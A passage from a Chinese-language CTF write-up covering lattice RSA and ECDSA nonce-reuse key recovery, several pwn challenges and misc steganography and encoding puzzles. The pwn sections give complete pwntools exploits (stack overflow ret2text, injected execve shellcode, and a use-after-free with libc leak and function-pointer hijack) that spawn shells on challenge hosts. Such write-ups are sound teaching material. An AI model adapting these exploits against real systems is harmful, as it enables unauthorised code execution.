    monic.append([f0, f1, f2, 1])

# ---- 2. CRT coefficients to N = n1 n2 n3 -----------------------------------
N = n1 * n2 * n3

def crt(vals, mods, M):
    r = 0
    for v, m_ in zip(vals, mods):
        Mi = M // m_
        r = (r + v * Mi * pow(Mi, -1, m_)) % M
    return r

F = [crt([p[k] for p in monic], ns, N) for k in range(4)]
assert F[3] == 1
print("F(x) computed (deg 3 monic mod N).")

# ---- 3. Howgrave-Graham lattice (d = 3, t = 1, dim = 4) --------------------
d, t = 3, 1
dim = d + t
X = 1 << 300  # safe upper bound on m (m is ~256 bits)

B = [[0] * dim for _ in range(dim)]
for i in range(d):
    B[i][i] = N * (X ** i)
for j in range(t):
    for k in range(d + 1):
        col = j + k
        B[d + j][col] = F[k] * (X ** col)

print(f"Running LLL on {dim}x{dim}...", flush=True)
red = lll(B, Q(3, 4))
print("LLL done.")

# Recover the integer polynomial g(x) from the shortest vector.
short = red[0]
g_coeffs = [short[j] // (X ** j) for j in range(dim)]
while g_coeffs and g_coeffs[-1] == 0:
    g_coeffs.pop()

def evalp(coefs, x):
    r = 0
    for c in reversed(coefs):
        r = r * x + c
    return r

# ---- 4. Find the integer root of g(x) --------------------------------------
xs = sympy.symbols("x")
poly = sympy.Poly(sum(c * xs ** i for i, c in enumerate(g_coeffs)), xs)
m = None
for r in poly.real_roots():
    try:
        ri = int(r)
    except (TypeError, ValueError):
        continue
    for cand in (ri - 1, ri, ri + 1):
        if cand > 0 and evalp(g_coeffs, cand) == 0:
            m = cand
            break
    if m is not None:
        break

assert m is not None, "no integer root recovered"
print("m =", m)
print("flag =", long_to_bytes(m))

```



flag{d3e053494a1280f3cff1c22c170069c0}


## ECDSA nonce 重用

### 题目截图



### 解题思路

`challenge\.json`：

```json
{
  "public_key_x": 82937147571408969267139200041203360936951744683871440166987788062427108593019,
  "public_key_y": 15586372809254615553254077057166913120384173467039862910897487982227597191402,
  "message1": "57656c636f6d6520746f2074686520435446206368616c6c656e676521",
  "message2": "506c65617365207265636f766572207468652073656372657420666c61672e",
  "signature1_r": 79013718241246135302610197377430012073343423894519665480327871129212060301075,
  "signature1_s": 103286208825942613961036297876825547961346350046619406322280179767228016529778,
  "signature2_r": 79013718241246135302610197377430012073343423894519665480327871129212060301075,
  "signature2_s": 79104101230423979234833091375845809917052647390793147016296814906477227009899,
  "curve": "SECP256k1"
}
```

\`signature1\_r == signature2\_r\`。在 ECDSA 中 \`r = \(k·G\)\.x mod n\`，两条不同消息的 \`r\` 完全相同，意味着签名时使用了 **同一个 nonce \`k\`**。

ECDSA 签名公式（曲线阶为 `n`，消息哈希为 `z`，私钥为 `d`）：

```text
s = k⁻¹ · (z + r·d)  (mod n)
```

当两条消息复用同一个 `k`（因此 `r` 相同）时：

```text
s1 = k⁻¹ · (z1 + r·d)
s2 = k⁻¹ · (z2 + r·d)
```

两式相减消去 `d`，解出 `k`：

```text
s1 − s2 = k⁻¹ · (z1 − z2)
      k = (z1 − z2) · (s1 − s2)⁻¹   (mod n)
```

再代回任一式即可解出私钥 `d`：

```text
d = (s1·k − z1) · r⁻¹   (mod n)
```

其中 `z = SHA256\(message\) mod n`（secp256k1 标准做法，消息为题目给出的 hex 串解码后再哈希）。

恢复出的私钥（64 位 hex），Flag 末段取私钥 hex 的**前 32 位**

exp如下：

```python
import json, hashlib

d = json.load(open('challenge.json'))

# secp256k1 群阶 n
n = 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141

r  = d['signature1_r']
s1 = d['signature1_s']
s2 = d['signature2_s']

def H(hexmsg):
    return int.from_bytes(hashlib.sha256(bytes.fromhex(hexmsg)).digest(), 'big') % n

z1 = H(d['message1'])
z2 = H(d['message2'])

# 恢复 nonce k 与私钥 priv
k    = (z1 - z2) * pow(s1 - s2, -1, n) % n
priv = (s1 * k - z1) * pow(r, -1, n) % n

# 私钥转为 64 位 hex，不足补 0
priv_hex = f"{priv:064x}"

# 取前 32 个 hex 字符作为 flag 末段
flag = f"flag{{ecdsa_nonce_reuse_{priv_hex[:32]}}}"

print(flag)
```

恢复出的私钥（64 位 hex）：

```text
a46b8f59aac5f0d5f1e661827c1cf3a7f536c9ce5a5d2452942215f16480d48b
```

Flag 末段取私钥 hex 的**前 32 位**：

```text
flag{ecdsa_nonce_reuse_a46b8f59aac5f0d5f1e661827c1cf3a7}
```




# Pwn

## PWN-Authenticate

### 题目截图



### 解题思路

对附件 `vuln` 进行检查：

```bash
checksec --file=./vuln
```

结果要点如下：

- `No PIE`：程序基址固定，函数地址可直接使用

- `No canary found`：栈上没有 canary，适合直接做栈溢出

- 程序未去符号：函数名可直接看到

同时在程序字符串中能直接看到几个关键信息：

- 存在危险函数 `gets`

- 存在 `system`

- 存在 `/bin/sh`

- 存在后门函数 `backdoor`

说明这题的预期思路非常明确：利用 `gets\(\)` 覆盖返回地址，跳转到程序自带后门。



反汇编后可以看到 `login\(\)` 和 `backdoor\(\)` 两个关键函数。

1.backdoor()

```c
void backdoor() {
    system("/bin/sh");
}
```

后门函数的作用非常直接，就是弹 shell。

2.login()

核心逻辑大致如下：

```c
void login() {
    char username[0x40];
    char password[0x80];

    puts("=== Welcome to SecureAuth System ===");
    printf("Username: ");
    read(0, username, 0x40);
    printf("Password: ");
    gets(password);

    if (!strcmp(username, "admin")) {
        puts("Access Denied: Admin login is disabled.");
    } else {
        puts("Invalid credentials.");
    }
}
```



这里的漏洞点在：

```c
gets(password);
```

`gets\(\)` 不会检查输入长度，因此可以溢出覆盖保存的 `rbp` 和返回地址。

根据反汇编可知：

- `password` 位于 `rbp\-0x80`

- 函数返回地址位于 `\[rbp\+8\]`

因此从 `password` 起始位置到返回地址的偏移为：

```text
0x80 + 0x8 = 0x88 = 136
```

所以 payload 的前 136 字节用于填充，后面覆盖返回地址。

一开始如果直接把返回地址覆盖为 `backdoor\(\)`，程序虽然会跳进去，但在执行 `system\(\&\#34;/bin/sh\&\#34;\)` 时会因为栈未按 16 字节对齐而崩溃。

这是因为在 x64 下调用某些 libc 函数时，对栈对齐有要求。  

因此需要先插入一个单独的 `ret` gadget，把栈调整到正确对齐后，再跳转到 `backdoor\(\)`。

本题中可用地址为：

- `ret`：`0x40101a`

- `backdoor`：`0x4011f6`

最终 ROP 链为：

```text
'A' * 136 + p64(0x40101a) + p64(0x4011f6)
```

脚本如下：

```python
from pwn import *

context.log_level = "info"

HOST = "120.27.146.76"
PORT = 28517

p = remote(HOST, PORT)

p.recvuntil(b"Username: ")
p.send(b"admin\x00")

p.recvuntil(b"Password: ")
payload = b"A" * 136
payload += p64(0x40101a)   # ret，对齐栈
payload += p64(0x4011f6)   # backdoor

p.sendline(payload)
p.sendline(b"cat flag")

print(p.recvrepeat(2).decode(errors="ignore"))

p.interactive()
```

拿到flag




## PWN-NoteService

### 题目截图



### 解题思路

对附件程序 `vuln` 做检查，可以得到：

```text
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```



这说明：

1. 开启了 `NX`，不能直接在栈上执行 shellcode；

2. 没有 `Canary`，存在栈溢出时可以直接覆盖返回地址；

3. 没有 `PIE`，程序基址固定，函数地址可直接使用；

4. 题目提示“利用程序自带后门函数实现 ret2text”，因此优先寻找隐藏函数。

反汇编 `vuln` 函数：



这里定义了 `0x40` 字节的栈缓冲区，但 `read\(0, buf, 0x100\)` 却读入 `0x100` 字节数据，明显可以覆盖保存的 `rbp` 和返回地址，形成经典栈溢出。

程序中存在隐藏函数 `secret\_note`：



这正是题目要求的 `ret2text` 目标函数。

思路非常直接：

1. 用溢出覆盖返回地址；

2. 让程序返回到 `secret\_note\(\)`；

3. 调用 `system\(\&\#34;/bin/sh\&\#34;\)` 拿到 shell；

4. 通过 shell 读取 `/flag`。

栈布局如下：

```text
buf[0x40] + saved rbp[0x8] + ret addr[0x8]
```

所以覆盖返回地址的偏移为：

```text
0x40 + 0x8 = 0x48 = 72
```

如果直接将返回地址覆盖成 `secret\_note`，程序会在 `system\(\&\#34;/bin/sh\&\#34;\)` 内部崩溃。

原因是 `amd64` 下调用某些 `libc` 函数时需要满足 `16` 字节栈对齐。这里直接 `ret` 到后门函数会导致栈对齐不满足，从而在 `do\_system` 中段错误。

因此需要先跳一个单独的 `ret` gadget 做对齐：

```text
ret gadget:   0x40101a
secret_note:  0x401196
```

最终利用链为：

```text
'A' * 72 + p64(0x40101a) + p64(0x401196)
```

EXP如下：

```python
from pwn import *

host = "47.99.147.34"
port = 21395

ret = 0x40101a
secret_note = 0x401196

payload = b"A" * 72 + p64(ret) + p64(secret_note)

p = remote(host, port)
p.recvuntil(b"Leave your note:\n")
p.send(payload)

# 进入 /bin/sh 后读取 flag
p.sendline(b"cat /flag")
p.interactive()
```

拿到flag




## PWN-MessageBoard

### 题目截图

### 解题思路

文件检查

```yaml
$ file vuln
ELF 64-bit LSB executable, x86-64, dynamically linked, not stripped

$ checksec vuln
Arch:   amd64-64-little
RELRO:  Partial RELRO
Stack:  No canary found       ← 无栈 canary，可以直接溢出
NX:     NX unknown (GNU_STACK missing)
PIE:    No PIE (0x400000)
Stack:  Executable             ← 栈可执行，能直接跳到 shellcode
RWX:    Has RWX segments
```

四大保护里关键的两个：没有 canary、栈可执行。结合"程序主动泄露栈地址"，结论就明摆着——往栈上写shellcode，把返回地址覆盖到 shellcode 起始。

ida打开文件分析，main函数如下

main 只是把 stdin/stdout/stderr 关掉缓冲然后调 vuln()。



关键函数是vuln()



两个漏洞点合体：

1. printf("Buffer at: %p", buf) —— 直接泄露 buf 在栈上的地址，绕过 ASLR；

2. read(0, buf, 0x100) —— 缓冲区只有 0x80（128）字节，却允许写 0x100（256）字节，足够把 saved RBP 和返回地址都覆盖掉。

漏洞利用思路

```typescript
栈布局（从低地址到高地址）：

[ buf 起始 (0x80=128 字节) ][ saved RBP (8) ][ return addr (8) ][ ... ]
          ↑
       buf 地址（被泄露）
```

利用步骤：

1. 接收 Buffer at: 0x... 的输出，解析得到 buf 的栈地址。

2. 构造 payload：

- 前 0x80 字节填 shellcode（不足用 'a' 填到 0x88，覆盖 saved RBP）；

- 接下来 8 字节写 p64(buf)，把返回地址改成 shellcode 起始地址；

3. vuln() 函数 leave; ret 时，从 buf（也就是 shellcode）开始执行，拿到 shell。

偏移计算：buf 在 rbp-0x80，所以 buf -> saved RBP 距离是 0x80，再加 8 字节 saved RBP 就是返回地址，所以 shellcode后总共填到 0x88 字节再追加返回地址。

解题脚本

```python
from pwn import *

context(arch="amd64", os="linux", log_level="info")

p = remote("120.27.146.76", 20056)

shellcode = (
    b"\x48\x31\xf6"
    b"\x56"
    b"\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68"
    b"\x57"
    b"\x54"
    b"\x5f"
    b"\xb0\x3b"
    b"\x99"
    b"\x0f\x05"
)

p.recvuntil(b'0x')
buf = int(p.recv(12), 16)
log.info("buf: " + hex(buf))

payload = shellcode.ljust(0x88, b'a')
payload += p64(buf)

p.sendlineafter(b"Message: ", payload)

# 列根目录、找 flag 文件
p.sendline(b"ls / 2>&1; ls -la /flag* /home /tmp 2>&1; find / -maxdepth 3 -iname 'flag*' 2>/dev/null")
p.sendline(b"cat /flag 2>&1")
p.sendline(b"cat /flag.txt 2>&1")
p.sendline(b"exit")
print(p.recvall(timeout=6).decode(errors="replace"))

```



flag{985511156b8b35d5df4a1cad23ca4603}


## PWN-UserManager

### 题目截图


### 解题思路

题目实现了一个简易用户系统，提供四个基础功能：

- `register`

- `login`

- `delete`

- `edit`

从功能上看只是普通的用户管理程序，但在堆对象释放和后续访问逻辑上存在明显缺陷。程序删除用户时虽然释放了对应堆块，却没有同步清空全局用户表中的指针，最终形成了一个可利用的 **Use-After-Free**。在此基础上，再结合堆块复用和登录逻辑中的函数指针调用，可以逐步完成地址泄露、基址计算以及控制流劫持。

最终目标是把悬垂的用户对象伪造成一个 fake object，使程序在 `login` 阶段执行：

```text
system("/bin/sh")
```

并进一步读出 flag。

在此基础上，通过重新申请合适大小的堆块，可以使新用户的密码区复用原用户结构体所在的 chunk，从而借助 `edit` 间接改写悬垂用户对象内容。结合 `login` 中对函数指针的调用，最终可实现控制流劫持。



利用思路如下：

1.构造堆重叠

先注册两个用户，再依次删除。由于旧指针仍保留在 `users` 表中，随后注册新用户时，其密码块可复用原先用户结构体所在内存区域。这样，对新用户执行 `edit`，实际上即可改写旧用户对象。



2.构造 `strcmp` oracle

通过伪造悬垂对象中的指针字段，使 `login` 过程中 `strcmp` 比较目标可控。根据登录成功或失败的返回结果，可以逐字节枚举目标地址内容。

利用该 oracle：

- 先恢复 `show` 函数指针，计算程序基址（PIE） 

- 再读取 `puts@GOT`，恢复 libc 基址 

3.劫持控制流

得到 libc 基址后，进一步计算出 `system` 和 `\&\#34;/bin/sh\&\#34;` 的实际地址。随后将悬垂用户对象伪造成：

- `pass\_ptr \-\&gt; \&\#34;/bin/sh\&\#34;`

- `show\_ptr \-\&gt; system`

再次触发 `login` 时，程序会执行：

```text
system("/bin/sh");
```

进而获取 shell 并读取 flag。

exp如下：

```python
#!/usr/bin/env python3
from pwn import *
import time

context(os="linux", arch="amd64")
context.log_level = "info"

HOST = "47.99.147.34"
PORT = 19588
BIN_PATH = "./login"

# binary offsets (PIE)
SHOW_OFF      = 0x9D0
PUTS_GOT_OFF  = 0x201F98

# libc-2.23-0ubuntu11.3 offsets
PUTS_OFF      = 0x6F6A0
SYSTEM_OFF    = 0x453A0
BINSH_OFF     = 0x18CE57

# Heap LSBs after the UAF setup
SHOW_PTR_LSB  = 0x98
CHUNK_PTR_LSB = 0x80

PROMPT_T = 6

class DeadSession(Exception):
    """Connection died or desynced — restart from scratch."""

def open_io(local):
    if local:
        return process(BIN_PATH)
    return remote(HOST, PORT, timeout=12)

class Exploit:
    def __init__(self, io):
        self.io = io
        self.io.timeout = PROMPT_T
        self._first_op = True

    # ---- low-level guards ----------------------------------------------
    def _expect(self, marker, t=PROMPT_T):
        try:
            data = self.io.recvuntil(marker, timeout=t)
        except (EOFError, ConnectionResetError, ConnectionAbortedError,
                BrokenPipeError):
            raise DeadSession(f"EOF waiting for {marker!r}")
        if marker not in data:
            raise DeadSession(f"desync waiting for {marker!r}, tail={data[-80:]!r}")
        return data

    def _send(self, data):
        try:
            self.io.send(data)
        except (BrokenPipeError, ConnectionAbortedError, ConnectionResetError):
            raise DeadSession("write failed")

    def _sendline(self, data):
        self._send(data + b"\n")

    def _menu(self):
        self._expect(b"Your choice:")

    # ---- menu primitives -----------------------------------------------
    def register(self, idx, length, data):
        if not self._first_op:
            self._menu()
        self._first_op = False
        self._sendline(b"2")
        self._expect(b"Input the user id:")
        self._sendline(str(idx).encode())
        self._expect(b"Input the password length:")
        self._sendline(str(length).encode())
        self._expect(b"Input password:")
        self._send(data)
        self._expect(b"Register success!")

    def delete(self, idx):
        if not self._first_op:
            self._menu()
        self._first_op = False
        self._sendline(b"3")
        self._expect(b"Input the user id:")
        self._sendline(str(idx).encode())
        self._expect(b"Delete success!")

    def edit(self, idx, data):
        self._menu()
        self._sendline(b"4")
        self._expect(b"Input the user id:")
        self._sendline(str(idx).encode())
        self._expect(b"Input new pass:")
        self._send(data)

    def login(self, idx, data):
        self._menu()
        self._sendline(b"1")
        self._expect(b"Input the user id:")
        self._sendline(str(idx).encode())
        self._expect(b"Input the passwords length:")
        self._sendline(str(len(data)).encode())
        self._expect(b"Input the password:")
        self._send(data)
        try:
            return self.io.recvuntil(b"Your choice:", timeout=PROMPT_T)
        except (EOFError, ConnectionResetError, ConnectionAbortedError):
            raise DeadSession("EOF after login")

    # ---- UAF setup -----------------------------------------------------
    def setup(self):
        # password0 / user0 / password1 / user1 all into fastbin[0x20]
        self.register(0, 0x20, b"A" * 0x20)
        self.register(1, 0x20, b"B" * 0x20)
        self.delete(1)
        self.delete(0)
        # malloc(24) reuses user_0's freed chunk as user_2's password buffer;
        # malloc(0x18) reuses password_0's freed chunk as user_2's struct.
        # Now users[0] (dangling) overlaps user_2's password buffer, so
        # edit(2, ...) writes through users[0]->{password,show,length}.
        self.register(2, 24, bytes([CHUNK_PTR_LSB]))

    # ---- oracles -------------------------------------------------------
    def oracle_relative(self, lsb, payload):
        self.edit(2, bytes([lsb]))
        return b"Login success!" in self.login(0, payload)

    def oracle_absolute(self, addr, show_addr, payload):
        self.edit(2, p64(addr) + p64(show_addr) + p64(0x20))
        return b"Login success!" in self.login(0, payload)

    # ---- byte-by-byte leaks --------------------------------------------
    def _leak(self, oracle, lsb_or_base, abs_mode, show_addr=None):
        leaked = b""
        for i in range(5, -1, -1):
            tail = leaked + b"\x00"
            for guess in range(256):
                pwd = bytes([guess]) + tail
                if abs_mode:
                    hit = oracle(lsb_or_base + i, show_addr, pwd)
                else:
                    hit = oracle((lsb_or_base + i) & 0xFF, pwd)
                if hit:
                    leaked = bytes([guess]) + leaked
                    log.info(f"  byte {i}: 0x{guess:02x}  acc={leaked.hex()}")
                    break
            else:
                raise RuntimeError(f"failed leak at byte {i}")
        return u64(leaked.ljust(8, b"\x00"))

    def leak_pie_show(self):
        return self._leak(self.oracle_relative, SHOW_PTR_LSB, abs_mode=False)

    def leak_libc_puts(self, puts_got, show_addr):
        return self._leak(self.oracle_absolute, puts_got,
                          abs_mode=True, show_addr=show_addr)

    # ---- finisher ------------------------------------------------------
    def pop_shell(self, system_addr, binsh_addr):
        # The last login() consumed "Your choice:" — start fresh here.
        self._sendline(b"4")
        self._expect(b"Input the user id:")
        self._sendline(b"2")
        self._expect(b"Input new pass:")
        self._send(p64(binsh_addr) + p64(system_addr) + p64(8))
        time.sleep(0.05)

        self._menu()
        self._sendline(b"1")
        self._expect(b"Input the user id:")
        self._sendline(b"0")
        self._expect(b"Input the passwords length:")
        self._sendline(b"8")
        self._expect(b"Input the password:")
        self._send(b"/bin/sh\x00")

        time.sleep(0.4)
        self.io.sendline(
            b"id; cat /flag* 2>/dev/null; cat /home/*/flag* 2>/dev/null; ls /"
        )
        try:
            out = self.io.recvrepeat(3)
            log.success(f"shell output:\n{out.decode(errors='replace')}")
        except Exception:
            pass
        self.io.interactive()

def run_round(local):
    io = open_io(local)
    try:
        ex = Exploit(io)
        ex.setup()

        log.info("phase 1: leak PIE via show pointer")
        show_addr = ex.leak_pie_show()
        pie = show_addr - SHOW_OFF
        puts_got = pie + PUTS_GOT_OFF
        log.success(f"show={hex(show_addr)} pie={hex(pie)} puts_got={hex(puts_got)}")

        log.info("phase 2: leak libc via puts@got")
        puts_addr = ex.leak_libc_puts(puts_got, show_addr)
        libc = puts_addr - PUTS_OFF
        system_addr = libc + SYSTEM_OFF
        binsh_addr = libc + BINSH_OFF
        log.success(f"puts={hex(puts_addr)} libc={hex(libc)} system={hex(system_addr)}")

        log.info("phase 3: trigger system(\"/bin/sh\")")
        ex.pop_shell(system_addr, binsh_addr)
    finally:
        try:
            io.close()
        except Exception:
            pass

def main():
    local = bool(args.LOCAL)
    rounds = int(args.ROUNDS) if args.ROUNDS else 20

    for r in range(rounds):
        log.info(f"=== round {r + 1}/{rounds} ===")
        try:
            run_round(local)
            return
        except DeadSession as e:
            log.warn(f"dead session: {e}")
        except RuntimeError as e:
            log.warn(f"runtime: {e}")
        except Exception as e:
            log.warn(f"unexpected: {e!r}")
        time.sleep(0.5)
    log.error("exhausted retries")

if __name__ == "__main__":
    main()

```

拿到flag




# Misc

## 像素中的秘密

### 题目截图



### 解题思路

**NG 结构拆解**

PNG 的标准布局是 `signature\(8\) \+ chunks\.\.\.`，每个 chunk 形如 `length\(4\) \+ type\(4\) \+ data \+ crc\(4\)`。逐 chunk 解析后：

|偏移|chunk|长度|CRC 校验|备注|
|---|---|---|---|---|
|8|IHDR|13|✅ 通过|64×64 RGB|
|33|IDAT|124|✅ 通过|像素数据|
|169|IEND|0|✅ 通过|PNG 结束标志|

按规范，**IEND 之后不应该再有任何字节**。这里多出了 64 字节，肯定是出题人塞进去的载荷。



附加数据如下

```text
00000000 69cb3444 e6741ecc fec75329
8b2b8b36 5de383f9 b6a8455f aa22d9fa
801804f6 7e1336a0 8483d711 bb2c210c
fb1ee500 5f32e934 03862da8 e71ab15c
```

先验证一下图像本体没有 LSB 之类的隐写：

```python
from PIL import Image
img = Image.open("image_08.png")
print(set(img.getdata()))   # {(255, 255, 255)}
```

只有一个像素值 \`\(255, 255, 255\)\`，所以 LSB / 位平面 / 调色板这些**都不可能**藏数据。题目标题里的"像素"是 misdirection（误导），真正的秘密在 IEND 之外。

对 64 字节做特征分析：

```text
熵 (Shannon entropy)  : 5.60 / 8.00
字节频率              : 大致均匀分布
可打印 ASCII 占比     : 21/64 ≈ 33%
```

熵 5.6 说明数据**不是纯随机**也不是普通文本，符合"加密数据"或"压缩数据"的特征。

观察整体结构，把 64 字节拆成 8 段 8 字节：

```text
0: 00 00 00 00 69 cb 34 44   ← 前 4 字节为 0，后 4 字节像 32 位整数
1: e6 74 1e cc fe c7 53 29   ← 高熵
2: 8b 2b 8b 36 5d e3 83 f9
...
```

第 0 段的"4 字节零 + 4 字节随机"是非常典型的 **"32 位整数用 8 字节大端存储"** 模式。常见的几种可能：

|解释|后续数据|
|---|---|
|8 字节种子（实际 32 位）|后 56 字节 = 流密码密文|
|8 字节 IV（实际 32 位）|后 48~56 字节 = 分组密钥密文|
|8 字节长度/版本字段|后 56 字节 = 实际载荷|

**56 字节不是 16 的倍数** → 不太可能是 AES-CBC/ECB（块密码会要求 16 字节对齐）。  

反过来，**56 字节适合流密码**（任意长度都能加解密）。

流密码用什么生成密钥流？常见的可能：

1. **LCG（线性同余生成器）**——CTF 里最常见的"自实现弱 PRNG"

4. Mersenne Twister（Python `random` 默认）

3. xorshift 系列

4. 自定义 LFSR

LCG 的优势：实现极短、参数广为人知（C `rand`、Java、glibc、Numerical Recipes）。

试一组**最常见的 LCG 参数表**：

|名称|乘数 a|增量 c|模数 m|
|---|---|---|---|
|Numerical Recipes|1664525|1013904223|2³²|
|glibc rand|1103515245|12345|2³¹|
|MS Visual C|214013|2531011|2³¹|
|Borland C|22695477|1|2³²|

每组都试一遍："种子 = 前 8 字节 mod 2³²，跑 56 轮取低 8 位作为密钥流，与后 56 字节 XOR"。

```python
def try_lcg(seed, mul, add, mod, ct):
    x = seed % mod
    out = bytearray()
    for c in ct:
        x = (mul * x + add) % mod
        out.append(c ^ (x & 0xFF))
    return bytes(out)
```

试到 **Numerical Recipes** \`\(1664525, 1013904223, 2³²\)\` 时，输出变成：

```text
b'5bctImREPUNVbqJmUNHWmXHFkVQF1qoDw5JIlf' + b'\x00' * 18
```

中间结果 `5bctImREPUNVbqJmUNHWmXHFkVQF1qoDw5JIlf` 字符集是 `\[0\-9 a\-z A\-Z\]`，没有 `\+/=`。

这正好是 **base62 字母表**

base62 解码：

```python
def base62_decode(s):
    alpha = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    n = 0
    for ch in s:
        n = n * 62 + alpha.index(ch)
    return n.to_bytes((n.bit_length() + 7) // 8, "big")
```

输出：

flag{xor_with_pseudo_random}

完整的exp

```python

from __future__ import annotations
from pathlib import Path
from typing import Iterator
import struct
import sys

PNG_SIGNATURE = b"\x89PNG\r\n\x1a\n"
B62_ALPHABET = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
B62_INDEX = {c: i for i, c in enumerate(B62_ALPHABET)}

# Numerical Recipes 的 LCG 常数
LCG_MUL = 1664525
LCG_ADD = 1013904223
LCG_MOD = 1 << 32

def extract_after_iend(path: str | Path) -> bytes:
 
    data = Path(path).read_bytes()
    if not data.startswith(PNG_SIGNATURE):
        raise ValueError(f"{path} is not a PNG file")

    pos = len(PNG_SIGNATURE)
    while pos + 12 <= len(data):
        (length,) = struct.unpack(">I", data[pos:pos + 4])
        chunk_type = data[pos + 4:pos + 8]

        end = pos + 8 + length + 4  # type(4)+data(N)+crc(4) 都已在 length 之外
        if end > len(data):
            raise ValueError(
                f"chunk at offset {pos} ({chunk_type!r}) overruns file"
            )

        pos = end
        if chunk_type == b"IEND":
            return data[pos:]

    raise ValueError("IEND chunk not found")

def lcg_keystream(seed: int) -> Iterator[int]:

    x = seed & 0xFFFFFFFF
    while True:
        x = (LCG_MUL * x + LCG_ADD) % LCG_MOD
        yield x & 0xFF

def xor_with_lcg(data: bytes, seed: int) -> bytes:
    ks = lcg_keystream(seed)
    return bytes(b ^ next(ks) for b in data)

def base62_decode(s: str) -> bytes:
   
    n = 0
    for ch in s:
        try:
            n = n * 62 + B62_INDEX[ch]
        except KeyError:
            raise ValueError(f"invalid base62 char: {ch!r}")
    if n == 0:
        return b"\x00"
    return n.to_bytes((n.bit_length() + 7) // 8, "big")

def solve(png_path: str | Path) -> str:
    tail = extract_after_iend(png_path)
    if len(tail) < 8:
        raise ValueError(f"appended payload too short: {len(tail)} bytes")

    seed = int.from_bytes(tail[:8], "big")
    cipher = tail[8:]

    middle_bytes = xor_with_lcg(cipher, seed).rstrip(b"\x00")
    middle = middle_bytes.decode("ascii")
    flag = base62_decode(middle).decode("utf-8")

    print(f"[+] file        : {png_path}")
    print(f"[+] tail length : {len(tail)}")
    print(f"[+] seed (raw)  : {tail[:8].hex()}")
    print(f"[+] seed (eff.) : 0x{seed & 0xFFFFFFFF:08x}")
    print(f"[+] cipher hex  : {cipher.hex()}")
    print(f"[+] middle b62  : {middle}")
    print(f"[+] flag        : {flag}")
    return flag

if __name__ == "__main__":
    target = sys.argv[1] if len(sys.argv) > 1 else 
    solve(target)

```




## 幻影

### 题目截图


### 解题思路

题目给的是一个bin文件



是 RAR 文件头，但实际是个伪装的文本文件，里面包含提示 BASE64 PLUS XOR、假 flag、和真正的 base64 数据

把 base64 解码后的前 5 字节和 flag{ 异或一下：

密文前5字节 = 0a 00 0d 0b 17

明文前5字节 = 66 6c 61 67 7b   ('f','l','a','g','{')

异或结果   = 6c 6c 6c 6c 6c   ('l','l','l','l','l')

说明 key 就是单字节 0x6c，循环异或整个密文

**解题脚本**

```python
import base64

with open('data.bin', 'rb') as f:
    raw = f.read()

b64 = raw.split(b'\n')[-1].strip()

cipher = base64.b64decode(b64)
known = b'flag{'
key = bytes(c ^ p for c, p in zip(cipher, known))
print('[*] recovered key bytes:', key)

xor_key = key[0]
flag = bytes(b ^ xor_key for b in cipher)
print('[+] flag:', flag.decode())

```



flag{2fdb21c8-b864-49d0-ac73-c4bc51e7e87f}


## 签到题-损坏的压缩包

### 题目截图


### 解题思路

拿到附件后，首先查看压缩包内容，发现压缩包中只有一个文件：

```text
data.txt
```

解压文件：

```text
unzip archive_04.zip
```

查看 `data\.txt` 内容：

```text
cat data.txt
```

得到如下字符串：

```text
bWdnbA==
```

尝试进行 Base64 解码：



解码结果为：

```text
mggl
```



所以flag就是

```text
flag{mggl}
```


## 迷宫

### 题目截图


### 解题思路

题目入口只有 layer1/data2.zip。但目录树有几个明显的"姿势":

```typescript
maze_01/layer1/
  ├── data2.zip                                ← 入口
  └── data2/
      └── secret3/
          ├── hidden4.zip                 ← 第二层 zip
          └── hidden4/
              └── .config/user/backup5/
                  └── vault.bin                 ← 终点
```

三个直觉信号:

1. 目录命名:layer/data/secret/hidden/backup + 自增数字 1→2→3→4→5,纯迷宫氛围,本身没含义。

2. .config/user/:伪装成"配置目录",误导你以为是普通文件。

3. zip 套 zip:data2.zip 里只有 secret3/hidden4.zip,告诉你入口只读 .zip 即可,目录树可以忽略。

010editor打开bin文件，46 字节,纯可见 ASCII



去掉尾巴6d后直接base64



flag{83228b2031aa650acd1f278704e74c31}

